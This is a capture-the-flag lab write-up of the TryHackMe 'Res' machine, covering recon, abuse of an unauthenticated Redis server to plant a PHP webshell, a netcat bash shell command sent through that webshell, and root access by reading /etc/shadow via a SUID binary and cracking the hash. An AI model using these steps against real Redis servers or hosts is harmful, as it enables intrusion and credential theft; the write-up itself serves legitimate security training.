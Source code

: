 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

[Web Application on Port 80](/images/web_application.png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

[web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

[redis_tools installation screenshot](/images/redis_tools.png)

[redis connect screenshot](/images/connect_redis.png)

[redis info screenshot](/images/info_redis.png)

Checking the webpage, I found that it works.

[Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

[access screenshot](/images/user.png)

###Privilage Escalation
[suid screenshot](/images/xxd_0.png)
[xxd screenshot](/images/xxd.png)

local user password hash from /etc/shadow file
[password hash screenshot](/images/shadow.png)

John the ripper to crack the password
[password cracked screenshot](/images/john.png)

Root access
[sudo screenshot](/images/root_access.png)







